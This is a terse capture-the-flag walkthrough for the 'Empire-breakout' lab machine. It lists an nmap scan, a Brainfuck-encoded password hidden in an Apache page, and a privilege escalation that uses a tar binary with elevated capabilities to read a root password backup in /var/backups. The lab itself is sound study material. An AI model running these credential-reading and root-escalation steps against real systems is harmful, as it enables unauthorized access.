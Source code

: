 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# Empire-breakout
# 3/2/2023

----------------------------------------------------
# nmap result
----------------------------------------------------
PORT      STATE SERVICE
80/tcp    open  http
10000/tcp open  snet-sensor-mgmt
20000/tcp open  dnp




page source of default apache server
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>++++++++++++++++.++++.>>+++++++++++++++++.----.<++++++++++.-----------.>-----------.++++.<<+.>-.--------.++++++++++++++++++++.<------------.>>---------.<<++++++.++++++.

.2uqPEfj3D<P'a-3

getcap -r / 2>/dev/null
cd /var/backups
cd ~
./tar -cf password.tar /var/backups/.old_pass.bak
 tar -xf password.tar
 cat .old_pass.bak 
 Ts&4&YurgtRX(=~h

su root